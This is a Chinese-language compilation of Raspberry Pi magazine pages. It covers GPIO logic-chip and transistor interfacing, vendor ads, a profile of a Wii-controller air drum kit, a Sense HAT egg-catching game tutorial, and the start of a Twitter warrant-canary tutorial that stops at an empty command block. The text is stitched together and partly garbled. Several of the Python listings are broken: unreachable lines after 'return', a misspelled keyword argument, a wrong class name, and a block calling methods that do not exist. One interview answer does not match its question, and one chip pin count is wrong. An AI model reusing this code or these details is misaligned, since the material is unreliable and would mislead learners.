驱动四个 LED 通常需要四个 GPIO 引脚。然而，如果我们的应用在任何时刻只需要点亮其中一个 LED（例如，如果 LED 用于指示状态），那么我们只需两个 GPIO 引脚就足够了。这是通过使用 2 到 4 译码器实现的。正如我们之前所见，根据其输入上的二进制值，它会输出一个逻辑 0 到其四个输出中的一个。74HC139 芯片包含两个 2 到 4 译码器，图示显示其中一个驱动四个 LED。

### 03 反转输出

上一张图展示了如何将 2 到 4 译码器连接到两个 GPIO 引脚并提供四个信号。然而，输出是“低电平有效”的，因此如果 LED 直接连接到输出端，除了代表二进制输入值的那一个之外，所有 LED 都会点亮。要在任何时刻只点亮一个 LED 的方法之一是使用反相器，如图所示。74H04A 芯片包含六个反相器。


### 04 将 LED 连接到 3.3V

作为反转低电平有效逻辑器件输出的更简单替代方案，可以将 LED 连接到 3.3V 而不是 0V。我们已经看到，使用 3.3V 信号驱动连接到 0V 的 LED 会使其点亮，完全相反的情况也成立。图示显示 LED 按此配置接线，如果施加逻辑 0，它将点亮，无论是直接来自 GPIO 引脚还是来自外部逻辑器件。


### 05 实现条形显示 (1)

条形显示（如音频设备上常见的那种）展示了外部逻辑的灵活性。我们需要根据 GPIO 引脚输出的 2 位二进制值，点亮 0 个、1 个、2 个直到 4 个 LED。这再次使用了 74H139。该图是实现此功能的第一步，你会注意到，虽然与步骤 3 中的电路类似，


还使用了第三个 GPIO 引脚来驱动使能引脚，以便可以关闭所有 LED。

### 06 实现条形显示 (2)

到目前为止，我们拥有一个与步骤 3 类似的电路，但增加了一种关闭所有 LED 的方法。本步骤中的电路展示了如何通过添加三个与门，使二进制 00 驱动 LED 1；二进制 01 驱动 LED 1 和 2；二进制 10 驱动 LED 1、2 和 3；二进制 11 驱动 LED 1、2、3 和 4。回顾与门的真值表，应该可以相当清楚地理解该电路如何实现这一点。


### 07 驱动七段 LED

在没有外部逻辑的情况下驱动七段 LED 需要七个 GPIO 引脚，如果你还想驱动小数点，则需要第八个引脚。通过使用 74HC4511，这可以分别减少到四个或五个引脚。这个七段编码器根据其输入上的 4 位二进制值，点亮七段显示屏中相应的 LED。一个有趣的练习是弄清楚如何驱动 4 位七段显示屏——如果你复用它们，并不一定需要四倍数量的 GPIO 引脚。


### 08 编码开关

不仅仅是驱动 LED 的输出可以从逻辑中受益。根据定义，多路开关在任何时刻只能有一个位置闭合，因此 4 位开关的输出可以编码为 2 位二进制数。这与我们在步骤 2 中看到的译码相反。可以执行此操作的芯片是 74HC148，它实际上是一个 8 到 3 线编码器，但我们可以通过将其八个未使用的输入端连接到 3.3V 来将其用作 4 到 2 位编码器。


### 09 连接未使用的输入端

使用逻辑芯片时，通常只有芯片的一部分会被使用。例如，如果你使用 74HC00 四路与非门并且只使用了四个门中的两个，那么另外两个将保持未使用状态。这不是问题，但你不应该让未使用的输入端悬空，因为它们可能会振荡，导致芯片汲取过大电流并过热。解决方案是将任何未使用的输入端连接到 3.3V 或 0V。未使用的输出端是没问题的，应保持悬空。


### 10 使用 5V 逻辑

偶尔你可能需要连接 5V 逻辑电路，但你不能直接将其连接到 Pi。有几种电平转换芯片，但大多数是单向的。然而，Texas Instruments 的 TXB0102、TXB0104 和 TXB0108 芯片（分别为 2、4 和 8 通道）是双向的，这意味着无论 GPIO 引脚被配置为输入还是输出，它们都能工作。Texas 器件提供带有 TXB0104 和 TXB0108 的底板，这些底板更容易处理。


## 电源

如果你接口的电路和外部设备需要 3.3V 或 5V 的电源，可以由 GPIO 插针提供。即便如此，如果你有大量外部电路，在电源和地线之间连接电容器是一个良好的做法，可以避免电源波动导致电路故障。使用一个 100µF 的电容加上多个 100nF 的陶瓷电容，电路中每个 IC 配一个，并尽量靠近这些 IC 接线。如果你需要 3.3V 和 5V 以外的电源，最简单的解决方案是使用电池，或者也许是几节 1.5V AA 电池组成的电池组。如果你需要无法轻易通过电池获得的电压，或者想从一节电池产生几种电源电压，你可以使用一种叫做电压调节器的组件。


## 功能：树莓派接口连接秘籍

### 安全地超越极限

接口连接那些电压或电流超过 GPIO 最大额定值的设备。

将 LED 等输出设备接口到 GPIO 引脚时，要求该设备所需的电压不超过 3.3V，且消耗的电流不超过 GPIO 引脚的最大 16mA。像电动机以及蓝色或白色 LED 这类需要更高电压供电和/或消耗更大电流的设备，需要特殊的处理。

解决方案是使用晶体管，它可以被视为电子开关。GPIO 引脚的一个小电流可以打开或关闭晶体管，从而打开或关闭一个独立的电路，该电路涉及比 GPIO 引脚所能提供的更高电压和通常更大的电流。这个次级电路可能使用 GPIO 排针上的 5V 作为其电源，但如果需要更高的电压，或者电流高于 GPIO 排针所能提供的，则需要外部电源。

电路图展示了通用配置。当 3.3V 通过电阻施加到晶体管基极时，它将会导通，这种情况你可以理解为晶体管的发射极直接连接到其集电极。这意味着电流可以从高压电源流出，通过负载（即电动机、蓝色 LED 等）流到 0V，从而电动机旋转或 LED 点亮。

选择晶体管的类型和电阻的数值是一个相当复杂的过程，尤其是考虑到有如此之多不同晶体管的可供选择。虽然我们在这里无法全面涵盖这个话题，但我们可以提供一些指导。首先，在所示电路中，晶体管必须是所谓的 NPN 双极晶体管。这类晶体管还将由它们的增益以及你可以在发射极-集电极电路上使用的最大电流和电压来定义。这里是开始变得复杂的地方，但可以说，对于高达 24V 的电压和高达 250mA 的电流（保守限制值），BC337 将是最理想的。对于这种类型的晶体管和这种电流，1k 电阻将是合适的。

最后，如果你的负载是电动机或继电器，重要的是要在负载两端并联一个二极管（阴极接电源），以抑制这些组件可能产生的反向电流，这些电流可能会毁坏晶体管。1N4148 将是一个合适的选择。


### 接口连接市电设备


设计用于控制市电设备的电路并不难，但如果出了问题，你可能会毁坏你的树莓派或触电。市面上有 HATS（树莓派扩展板）可供购买用于此目的，但我们也不推荐这些，因为市电端子离低压电路太近。因此，如果一根电线松脱，你可能会引燃你的树莓派，让一个组件爆炸并直接射向你的脸，或者让高压危险地靠近你的手指。

出于这个原因，我们建议你使用现成的接口，其中与市电设备的唯一连接是通过家用风格的 13A 插座。Energenie (energenie4u.co.uk) 提供 13A 遥控插座，可以使用类似电视遥控器的无线电控制手柄。或者，也可以使用为树莓派设计的无线电发射模块，该模块也可从 Energenie 获得。一套包含两个插座和一个树莓派接口的入门套件价格为 21.99 英镑（含增值税和运费）。


#### Ryantek LTD

在 Linux 上使用树莓派扩展模块、HATS 和 GPIO。
（也支持 Windows 和 Mac）



在以下地址查看进展
http://ryanteck.com/rtkgpio


#### 涵盖所有树莓派！


Raspberry Pi Shop - 我们库存一系列分线板、树莓派套装、SD 卡、外壳、黑客套件和组件 - 提供全球配送！


WWW.MODMYPI.COM


#### 爱你的树莓派？爱音乐？

由音频专家设计，让每个人享受


9折
"Linux10"

让你的树莓派体验令人惊叹的音质
连接耳机、扬声器、RCA、Toslink、S/PDIF 或 XLR
我们与所有主要音乐解决方案合作以确保兼容性


Twitter: @iQ_audio
Email: info@iqaudio.com
Web: www.iqaudio.com

#### iQaudio

iQaudio Limited,
Crickleade Wiltshire.
公司编号：9461908


#### 动作追踪

为了帮助让控制器追踪到位，David 不得不使用 Tkinter。他制作的这个应用程序使 David 能够考虑到控制器的移动和速度，并通过这些因素的组合实现不同的声音。

#### 扳机支持

为了在每个控制器上获得三种声音，David 不得不将扳机用作第三种声音的主要组件。扳机的按压加上控制器的特定动作，有助于发出镲片或额外鼓声。

#### 响应时间

项目的关键因素之一是确保声音响应时间保持在最低限度。树莓派 3 在这里证明了是完美的选择，帮助将控制器发出的动作和扳机信号转化为已实现的鼓声之一。

#### 控制器兼容性

David 详细说明，让两个控制器同时工作是最大的问题之一。他不得不深入调整每个控制器的 MAC 地址，以便让它们都与树莓派一起工作，同时也让两个控制器协同工作。


**右图** 动作和速度均由树莓派单元直接追踪，这有助于触发控制器实现的鼓声和镲片声。
**下图** 该项目始于 David 购买了一套 Silverlit 空气鼓套件，该套件经过大量改装以兼容树莓派单元。



#### 组件列表

- 树莓派 3
- 任天堂 Wii 控制器
- Silverlit 空气鼓套件
- Python cvvid 库
- Tkinter
- 开源鼓声样本


#### 树莓派空气鼓套件

David Pride 的空气鼓套件将树莓派变成了音乐大师。

**这套鼓套件的原始想法来源是哪里？**

对我而言，我们寻找灵感的地方总是很有趣。这些可以是人、一本书、一条推文、一个网站——任何东西。我的许多项目想法都始于我在当地路边市场发现某样东西时。

这次我发现的是一个 Air Play“空气鼓”——标价仅为 1 英镑！我怎么可能拒绝呢？所以我把它带回家随便玩了一下，老实说，虽然概念很棒，但实际功能有点有限，音质很差，而且关于哪种动作播放哪种声音也有些让人困惑。

**构建过程是怎样的？你遇到了任何问题吗？**

这使得在树莓派 3 上运行时间变得非常可接受，我把代码发布到 Github，其他人也都在以此自娱。我看过一个版本使用控制器代码和 PyGame 来播放声音文件；这似乎在较老版本的树莓派上运行得更好。

**你认为这个项目有任何扩展的可能性吗？也许集成更多声音？**

关于还能做什么，我感兴趣的是看看是否可以将 Wii 控制器中的实际机械部件安装在一副手套上；这可能是一个非常有意思的实验。此外，我想配置一个更精细的输出，能够生成 MIDI 信号，而不仅仅是播放现成的声音文件，这将真正打开一系列不同的可能性。

我们的许多读者都知道你在树莓派方面的探索。你接下来要做什么？

**有什么大的项目在筹备中吗？**

关于接下来会发生什么，我非常幸运，因为我刚刚弄到了一台 3D 打印机，所以一直在玩得很开心并做实验。我设计了一个兼容乐高积木的树莓派 Zero 外壳，这被证明非常受欢迎。我被选中参加 Pi Wars，这是树莓派机器人竞赛，将于 2017 年 4 月举行，所以未来几个月我也会为那个活动做大量准备。


> **David Pride**
> 是一名树莓派爱好者，在英国各地以树莓派为中心的各类活动中发挥了重要作用。

**喜欢吗？**

David 多年来深度参与树莓派社区，我们之前已经介绍过他的多个项目。我们强烈建议你查看他的 Connect4 机器人，这是将树莓派集成到不同类型的另一种新颖方式：http://bit.ly/2lbxSNw

**延伸阅读**

虽然空气鼓套件是一个小众项目，但 David 解释说这是一个非常适合初学者入门的项目。关于该项目的单一查看页面在这里：http://bit.ly/2qhhEE，而所有必要的代码都可以在他的官方 GitHub 列表中获得：http://bit.ly/2gnHi7b


## 教程：使用 Sense HAT 制作鸡蛋掉落游戏


Dan Aldred 是树莓派认证教育者，也是 CAS 的首席学校教师。他领导了 Astro Pi 中学组竞赛的获胜团队，并出现在 DfE 的“鼓舞人心的教师”电视广告中。他最近从 Skyacademy 毕业，曾将搭载树莓派的高空气球发射至超过 31,000 米的平流层。

### 使用 Tim Peake 上校在国际空间站上所使用的同款硬件，编写你自己的接蛋游戏

一些最基础且重复性强的游戏往往也是最有趣的。想想 Flappy Bird、井字棋甚至接球游戏。本教程将向你展示如何创建一个简单的“接蛋”游戏，充分利用 Sense HAT 的一些特性。首先，通过代码让一个鸡蛋——即一个黄色 LED——每秒掉落一次，并在 LED 矩阵的最底行放置一个篮子——即一个棕色 LED。利用 Sense HAT 的加速度计读取并反馈你向左或向右倾斜 Sense HAT 的动作，从而移动篮子以接近鸡蛋。成功接住鸡蛋后，游戏重新开始，一个新的鸡蛋会从随机位置掉落……但如果你错过了，鸡蛋就会破碎，游戏结束！你的程序会实时告知你当前的进度，游戏结束时，会显示你的最终得分。如果你没有 Sense HAT，可以使用带有 PIXEL 操作系统的树莓派上的模拟器。你还可以在此观看蛋掉落游戏的实际演示：youtube.com/watch?v=QmjHMzuzWjQ

### 你需要准备的物品

-   Sense HAT
-   带有 Sense HAT 模拟器的 Pixel OS 版本的 Raspbian

```python
game_over = False
basket_x = 7
score = 0
```

### 01 导入模块

首先，打开你的 Python 编辑器并导入 SenseHAT 模块，见第 1 行。然后导入 time 模块，见第 2 行，以便你可以为程序添加暂停。第 3 行的 random 模块用于从 LED 顶部选择一个随机位置，鸡蛋将从该位置掉落。为了省去重复输入 'SenseHAT' 的麻烦，将其赋值给一个变量，见第 4 行。最后，将所有 LED 设为关闭状态，以清除之前的分数和游戏数据，见第 5 行。

```python
from sense_hat import SenseHat
import time
import random
sense = SenseHat()
sense.clear()
```

### 02 设置变量

接下来，创建变量以存储各种游戏数据。在第 1 行，创建一个全局变量来存储游戏状态。这记录了游戏是在进行中还是已结束。全局变量使得该状态可以在游戏后期与其他程序部分配合使用。在第 2 行，创建另一个变量来存储你的游戏得分。将第 3 行的 game_over 变量设置为 False，这意味着游戏尚未结束。矩阵中每个 LED 的位置由 x 和 y 坐标表示，最上面一行为编号 0，最下面一行为编号 7。创建一个变量来存储篮子的位置，篮子被设置在 LED 的最底行，即编号 7 的位置。最后，将得分设为零。

```python
global game_over
global score
```

### 03 测量篮子移动：第 1 部分

篮子通过向左或向右倾斜 Sense HAT 来控制，这会改变俯仰角（pitch）。创建一个函数来包含代码，该函数将用于响应移动并移动篮子。在第 1 行，命名函数，包含俯仰角读数以及篮子的位置 basket_x。使用 sense.set_pixel 在 LED 矩阵的右下角开启一个 LED，坐标为 (7,7)，见第 2 行。然后将篮子的下一个位置设置为当前位置，以便函数再次运行时进行更新。这会用篮子的新位置更新变量并开启相应的 LED。这产生了一种篮子似乎移动了的视觉效果。

```python
def basket_move(pitch, basket_x):
    sense.set_pixel(basket_x, 7, [0, 0, 0])
    new_x = basket_x
```

### 04 测量篮子移动：第 2 部分

函数的第二部分包含一个条件判断，检查俯仰角和篮子当前的位置。如果俯仰角在 1 到 179 之间且篮子不在位置 0，则说明 Sense HAT 向右倾斜，因此篮子向右移动。第二个条件检查数值是否在 359 到 179 之间，这意味着倾斜方向向左，见第 3 行。最后一行代码返回篮子的 x 位置，以便在代码后面使用——参见第 13 步。

```python
if 1 < pitch < 179 and basket_x != 0:  
    new_x -= 1
elif 359 > pitch > 179 and basket_x != 7:
    new_x += 1
return new_x,
```

### PIXEL 灵感

Johan Vinet 有一些出色的、具有启发性的 8x8 像素艺术作品示例，其中包含一些著名角色，向你展示你可以用 64 个彩色像素创造出什么。joh.anvinet.tumblr.com/image/127476776680


### 05 为你的游戏创建图像

图像是由像素组合而成的，这些像素共同构成一幅完整的图片。矩阵上的每个 LED 都可以自动从图像文件中设置。例如，可以加载一张鸡的图片，计算其颜色和位置，然后启用相应的 LED。图像尺寸需要为 8x8 像素，以适应 LED 矩阵。下载测试图片文件 **chicken.png**，并将其保存到你的程序所在的同一文件夹中。使用此处代码在新的 Python 窗口中打开并加载鸡的图片（第 3 行）。Sense HAT 会为你完成剩下的繁重工作。

```python
from sense_hat import SenseHat
sense = SenseHat()
sense.load_image("chicken.png")
```

### 06 创建你自己的 8x8 图像

使用 LED 创建自己图像的最简单方法是使用一款极其流行的屏幕程序，它允许你实时操作 LED。你可以更改颜色、旋转图像，并将图像导出为代码或 8x8 PNG 文件。

首先，你需要安装 Python PNG 库：打开终端窗口并输入：

```bash
sudo pip3 install pypng
```

完成后，输入：

```bash
git clone https://github.com/jrobinson-uk/RPL_8x8GridDraw
cd RPL_8x8GridDraw
```

安装完成后，移动到 RPI 文件夹：

```bash
cd RPL_8x8GridDraw
```

### 完整代码列表

```python
from sense_hat import SenseHat
## EGG Drop ##
## Code by dan_aldr ##

import time
import random
sense = SenseHat()
sense.clear()

global game_over
global score

game_over = False
basket_x = 7
score = 0

def basket_move(pitch, basket_x):
    sense.set_pixel(basket_x, 7, [0, 0, 0])
    new_x = basket_x
    if 1 < pitch < 179 and basket_x != 0:
        new_x -= 1
    elif 359 > pitch > 179 and basket_x != 7:
        new_x += 1
    return new_x,

def main():
    global game_over

    sense.show_message("Egg Drop", text_colour = [255, 255, 0])
    sense.set_rotation(90)
    sense.load_image("chick.png")
    time.sleep(2)
    sense.set_rotation()

    countdown = [3, 2, 1]
    for i in countdown:
        sense.show_message(str(i), text_colour = [255, 255, 255])

    basket_x = 7
    egg_x = random.randrange(0,7)
    egg_y = 0
    sense.set_pixel(egg_x, egg_y, [255, 255, 0])
    sense.set_pixel(basket_x, 7, [139, 69, 19])
    time.sleep(1)

    while game_over == False:
        global score
        pitch = sense.get_orientation()['pitch']
        basket_x, = basket_move(pitch, basket_x)

        sense.set_pixel(basket_x, 7, [139, 69, 19])
        time.sleep(0.2)
```

### 07 创建并导出你的图像

现在输入以下命令：

```bash
python3 sense_grid.py
```

...来运行该应用程序。


网格编辑器允许你从窗口右侧显示的一系列颜色中进行选择。只需选择颜色，然后单击网格上 LED 的位置；选择“在 LED 上播放”即可在 Sense HAT LED 上显示该颜色。使用“清除网格”按钮清除 LED，然后重新开始。最后，在导出图像时，你可以将其保存为 PNG 文件，然后应用上一步中的代码来显示图片，或者将布局导出为代码并将其导入到你的程序中。

```python
import time
import sense_hat
import random

sense = Sense_Hat()
sense.set_rotation(90)

def main():
    sense.show_letter("W", text_colour = [255, 255, 0])
    sense.show_letter("e", text_colour = [255, 255, 0])
    sense.show_letter("l", text_colour = [255, 255, 0])
    sense.show_letter("c", text_colour = [255, 255, 0])
    sense.show_letter("o", text_colour = [255, 255, 0])
    sense.show_letter("m", text_colour = [255, 255, 0])
    sense.show_letter("e", text_colour = [255, 255, 0])
    sense.show_letter(" ", text_colour = [255, 255, 0])
    sense.show_letter("t", text_colour = [255, 255, 0])
    sense.show_letter("o", text_colour = [255, 255, 0])
    sense.show_letter(" ", text_colour = [255, 255, 0])
    sense.show_letter("p", text_colour = [255, 255, 0])
    sense.show_letter("l", text_colour = [255, 255, 0])
    sense.show_letter("a", text_colour = [255, 255, 0])
    sense.show_letter("y", text_colour = [255, 255, 0])

def show_score(score):
    sense.show_letter(str(score), text_colour = [0, 255, 0])

def show_message(message):
    sense.show_message(message, text_colour = [255, 255, 0], scroll_speed=0.1)

def set_rotation(rotation):
    sense.set_rotation(rotation)

def load_image(image):
    sense.load_image(image)

def clear_grid():
    sense.clear()

def play_on_leds():
    sense.clear()

def sense_draw_image():
    sense.draw_frame([255, 255, 255])

def sense_clear():
    sense.clear()

def sense_show_letter(letter):
    sense.show_letter(letter)

def sense_show_message(message):
    sense.show_message(message)
```

```json
{
    "coordinates": [[0, 0], [8, 7]],
    "grid_colour": [255, 255, 0],
    "text_colour": [255, 255, 0],
    "frame": true,
    "export_png": true,
    "play_on_leds": true,
    "export_coco": false
}
```

### 08 显示消息：游戏开始

既然你已经有了一张图像，就可以创建控制整个游戏的函数了。创建一个名为 main 的新函数，见第 1 行，并添加以下代码：

```python
sense.show_message
```

...以显示游戏的欢迎消息，见第 3 行。数值 255、255 和 0 代表消息的颜色（在此示例中为黄色）。你可以编辑这些数值来选择自己喜欢的颜色。

```python
def main():
    global game_over
    sense.show_message("Egg Drop", text_colour = [255, 255, 0])
```

### 09 显示你的启动图像

一旦启动消息在 Sense HAT LED 矩阵上滚动完毕，你就可以显示你的游戏图像了，在此示例中是一只鸡。由于 Sense HAT 的方向和线缆位置，你需要将其旋转 90 度以面向玩家，见第 1 行。使用代码 sense.load_image 加载图像，见第 2 行。使用 time.sleep() 显示图像几秒钟，见第 3 行。请注意，从此类行开始，都要与前一行保持缩进对齐。

```python
sense.set_rotation(90)
sense.load_image("chick.png")
time.sleep(2)
sense.set_rotation()
```


### 10 倒数开始游戏

一旦启动图像显示完毕，用一个简单的从三到一的倒数让玩家为游戏做好准备。首先创建一个名为 countdown 的列表，存储数值 3、2 和 1，见第 1 行。使用 for 循环，见第 2 行，遍历这些数字并显示它们。这使用代码 sense.show_message(str(i)) 在 LED 上显示每个数字。你可以使用三部分 RGB 值 text_colour = [255, 255, 255] 来调整数字的颜色，见第 3 行。

```python
countdown = [3, 2, 1]
for i in countdown:
    sense.show_message(str(i), text_colour = [255, 255, 255])
```

### 11 设置鸡蛋和篮子

随着游戏开始，将篮子的水平位置，即“X”位置，设置为 7；这会将篮子放置在 LED 矩阵的右下角。现在将鸡蛋的 x 位置设置为 0 到 6 之间的随机位置，见第 2 行。这位于 LED 矩阵的顶部，确保鸡蛋并不总是从同一个起点落下。最后，将鸡蛋的 y 值设置为 0，以确保鸡蛋从 LED 矩阵的最顶端落下，见第 3 行。

```python
basket_x = 7
egg_x = random.randrange(0,7)
egg_y = 0
```

### 12 显示鸡蛋和篮子

在上一步中，你设置了鸡蛋和篮子的位置。现在使用这些变量来显示它们。在第 1 行，使用代码 sense.set_pixel 设置鸡蛋，随后跟上其 x 和 y 坐标。x 位置是 0 到 7 之间的随机位置，y 设置为 0 以确保鸡蛋从顶部开始。接下来，将颜色设置为黄色。（除非你的鸡蛋坏了，在这种情况下


## 制作一个有趣的游戏

将其设置为绿色 (0, 255, 0)。接下来，使用相同的代码（第 2 行）设置篮子的位置，其中 x 坐标设置为 7，以确保篮子显示在右下角的 LED 上。使用值 139、69、19 将颜色设置为棕色。

```python
sense.set_pixel(egg_x, egg_y, [255, 255, 0])
sense.set_pixel(basket_x, 7, [139, 69, 19])
time.sleep(1)
```

### 13 移动篮子：第一部分

首先检查游戏是否仍在进行中（鸡蛋仍在下落），即检查 `game_over` 变量是否为 False，这是第 1 行。在第 2 行，导入得分。接下来，使用代码 `sense.get_orientation()['pitch']` 读取 Sense HAT 的“俯仰角”（pitch），这是第 3 行。请注意，这是你在步骤 4 和 5 中创建的函数所导出的值。最后一行代码使用函数关闭代表篮子的 LED，然后查看俯仰角的值，判断 Sense HAT 是向左还是向右倾斜，然后将当前 LED 的 x 坐标加一或减一。这相当于选择了当前 LED 相邻的左侧或右侧 LED。最后，使用新的位置值更新 `basket_x` 的值。

```python
while game_over == False:
    global score
    pitch = sense.get_orientation()['pitch']
    basket_x = basket_move(pitch, basket_x)
```

### 14 移动篮子：第二部分

你的程序现在已经计算出了篮子的新位置。接下来，打开相应的 LED 并在新位置显示篮子。在第 1 行，使用代码 `sense.set_pixel(basket_x, 7, [139, 69, 19])` 来设置并打开 LED。`basket_x` 是上一步中使用步骤 4 和 5 的函数计算出的值。在第 2 行添加一个短暂的时间延迟，以避免过度读取俯仰角。现在，你拥有一个可以左右移动的篮子。

```python
sense.set_pixel(basket_x, 7, [139, 69, 19])
time.sleep(0.2)
```

### 15 让鸡蛋下落：第一部分

鸡蛋从顶部一行中某个随机位置的 LED 落下，以模拟下落的外观。首先，使用代码 `sense.set_pixel(egg_x, egg_y, [0, 0, 0])` 关闭代表鸡蛋的 LED。值 0、0、0 代表黑色，因此不会显示颜色。看起来鸡蛋不再在顶行上了。

```python
sense.set_pixel(egg_x, egg_y, [0, 0, 0])
```

### 16 让鸡蛋下落：第二部分

由于鸡蛋是向下落的，你只需要更新 y 轴的位置。在第 1 行，使用代码 `egg_y = egg_y + 1` 更新 `egg_y` 变量来实现这一点，这意味着它将从初始值零变为新值一。（当下一次“游戏循环”运行时，它将更新为二，依此类推，直到鸡蛋到达矩阵底部，即值为七。）一旦 y 坐标更新，使用 `sense_set_pixel` 在新位置显示鸡蛋，这是第 2 行。鸡蛋看起来像是向下移动了一个 LED，朝向底部。

```python
egg_y = egg_y + 1
sense.set_pixel(egg_x, egg_y, [255, 255, 0])
```


## 完整代码列表（续）

```python
'''Egg drop'''
sense.set_pixel(basket_x, 7, [0, 0, 0])
sense.set_pixel(egg_x, egg_y, [0, 0, 0])

egg_y = egg_y + 1
#print (egg_y)
sense.set_pixel(egg_x, egg_y, [255, 255, 0])

'''Check position of the egg and basket x , y '''

if (egg_y == 7) and (basket_x == egg_x or basket_x-1 == egg_x):
        sense.show_message("Up", text_colour = [0, 255, 0])
        sense.set_pixel(egg_x, egg_y, [0, 0, 0])
        egg_x = random.randrange(0,7)
        score = score + 1
        egg_y = 0

elif egg_y == 7:
        sense.show_message("Game Over", text_colour = [255, 30, 0])
        return score
        game_over = True
        break

main()

time.sleep()
sense.clear()
sense.show_message("You Scored " + str(score),
text_colour = [128, 45, 255], scroll1_speed = 0.08)
```

## 教程


```python
egg_x = random.randrange(0,7)
score = score + 1
egg_y = 0
```

### 17 你接住鸡蛋了吗？

在教程的这个阶段，你有一个下落的鸡蛋和一个可以随着你倾斜 Sense HAT 而左右移动的篮子。游戏的目的是在篮子里接住鸡蛋，因此创建一行代码来检查是否发生了这种情况，这是第 1 行。这检查鸡蛋是否在 LED 矩阵的底部（即在位置 7），并且篮子的 x 坐标值与鸡蛋的 x 坐标值相同。这意味着鸡蛋和篮子都位于同一位置，因此你接住了鸡蛋。

```python
if (egg_y == 7) and (basket_x == egg_x or basket_x-1 == egg_x):
```

### 18 成功！

如果你用篮子接住了鸡蛋，你将获得一分。使用 sense.show_message() 在 LED 上滚动消息来通知玩家，这是第 1 行。写下你自己的消息并选择一个颜色。既然你接住了鸡蛋，它应该消失，因为它在篮子里；为此，将“鸡蛋”像素设置为颜色值 0,0,0。这基本上关闭了鸡蛋 LED，使鸡蛋消失。注意，这些行都进行了缩进。

```python
sense.show_message("Up", text_colour = [0, 255, 0])
sense.set_pixel(egg_x, egg_y, [0, 0, 0])
```

### 19 为下一轮做准备

既然你接住了鸡蛋，你就可以再玩一次。让新的鸡蛋从 LED 矩阵上一个随机的 x 位置落下，这是第 1 行。将得分更新为一分，然后将鸡蛋的 y 坐标设置为 0，这是第 3 行。这确保了在鸡蛋开始下落前，它回到了 LED 矩阵的最顶端。

### 20 如果你错过了鸡蛋会发生什么？

如果你错过了鸡蛋或让它掉落，游戏就结束了。创建一个条件语句，检查鸡蛋的位置是否等于或大于 7，这是第 1 行。显示一条消息说明游戏结束，这是第 2 行，然后返回在第 23 步中显示在 LED 矩阵上的得分值。

```python
if egg_y == 7:
    sense.show_message("Game Over", text_colour = [255, 38, 0])
    return score
```

### 21 停止游戏

由于游戏结束，将 game_over 变量更改为 True，这将停止游戏循环再次运行，然后执行程序的最后一行。

```python
game_over = True
break
```

### 22 开始游戏

主要说明和游戏机制存储在一个名为 main() 的函数中，该函数包含了大部分游戏结构和过程。函数位于程序的开头，以确保它们首先被加载，准备好供程序使用。要开始游戏，只需调用该函数（第 1 行），添加一个短延迟（第 2 行），并确保在游戏开始前所有 LED 都设置为关闭状态（第 3 行）。

```python
main()
time.sleep(1)
sense.clear()
```

### 23 显示你的最终得分

如果你没有接住鸡蛋，游戏就结束了，你的得分将在 LED 上滚动显示。这使用了 sense.show_message 行，然后从 global_score 变量中获取值，并使用 str() 将此值转换为字符串。这是第 1 行。你的程序现在已完成：保存文件并运行它。在键盘上按 F5 即可执行此操作。在显示初始图像和消息后，倒计时将开始，游戏也会随之开始。你能接住鸡蛋吗？

```python
sense.show_message("You Scored " + str(score), text_colour = [128, 45, 255], scroll_speed = 0.08)
```

## 探索内部技术

www.gadgetdaily.xyz


## Gadget


现已发售

- 每年节省 5,000 英镑 ■ 为生活注入动力的科技 ■ PS4 Pro 技巧
- 最酷的科技设备
- 科技拆解
- 购买建议
- 科学解释
- 操作指南

## 立即购买本期杂志

印刷版可在 www.imagineshop.co.uk 购买

数字版可在 www.greatdigitalmags.com 获取

## 教程

## 制作基于 Raspberry Pi 的 warrant canary（ warrant canary 是一种自我监视机制，用于检测秘密请求）

使用你自己的 warrant canary 保护自己免受《1984》式的噤声令和秘密搜查令的影响


Nate Drake
(@natewriter) 是一位专注于网络安全的自由科技记者。在看了几个小时动画片后，他决定使用 Twitter 为自己创建一个 warrant canary。


Warrant canary 借用了一个不幸被矿井矿井中带下去的鸟的名字。它是一种对秘密获取客户个人数据请求的反抗。例如，当法院命令送达给企业时，其所有者被禁止向用户提醒他们的数据已泄露。Warrant canaries 巧妙地规避了这一法律障碍，通过定期声明它们未受到此类请求。如果它们关闭了 warrant canary，正如 Reddit 在 2016 年 3 月所做的那样，用户将知道外部机构也拥有访问公司存储的关于他们的数据的权限。这在法律上的影响是复杂的，并取决于你所在的世界；本教程仅仅是概念验证练习。

在本教程中，我们将使用 Raspberry Pi 和一个专用的 Twitter 机器人来构建您自己的 warrant canary。

你需要什么
- 适用于所有型号的 Raspberry Pi


左图 填写有效的电子邮件地址和电话号码以创建新账户

### 01 创建一个 Twitter 账户

前往 Twitter.com 并创建一个新账户。你需要一个有效的电子邮件地址和手机号码。如果你已经有 Twitter 账户，请确保添加手机号码，因为这是使用 Twitter 机器人的必要条件。参见 https://support.twitter.com/articles/110250# 获取帮助。


左图 点击编辑个人资料以修改你的详细信息。在继续之前确认你的电子邮件地址

### 02 创建应用程序

一旦你的账户设置完成，在任何设备上访问 http://apps.twitter.com 并点击创建新应用程序开始为你的 warrant canary 设置一个专用的机器人。

填写“个人网站”，输入你的 Twitter 渠道的 URL。勾选框表示你已阅读并同意开发者协议，然后点击创建你的 Twitter 应用程序。


左图 如果可能，请保持此页面打开，因为你很快就需要 API 密钥和访问令牌

### 03 创建你的访问令牌

点击密钥和访问令牌。记下你的 API 密钥。接下来，滚动到令牌操作并点击创建我的访问令牌。写下访问令牌和访问令牌密钥。你的 Raspberry Pi 将需要这些信息以便稍后能够安全连接到 Twitter。

### 04 微调个人资料

可选在此阶段，你可以选择从 Twitter 删除你的手机号码：它只需要一次性输入以阻止垃圾邮件。请自由在此阶段为你的账户添加个人头像，并更新简介以说明你的 warrant canary 的用途。


## 最佳实践

Twitter 对垃圾邮件机器人有严格的保障措施。这就是为什么它要求使用应用程序的账户通过短信进行验证。在测试脚本时你可能会注意到，Twitter 也不允许重复的状态。确保你的推文之间有良好的间隔。上述教程将让你的 Pi 的 canary 每天在午夜发一条推文。如果你需要它们更密集，raspberrypi.org 网站有一些关于使用 Twython 从列表中随机发布消息的技巧。


## 搜索令状金丝雀（Warrant Canary）

Twython 是 Twitter API 的 Python 封装库。

### 05 在树莓派上安装软件

在您的树莓派上打开终端，或通过 SSH 连接。运行以下命令：

```bash
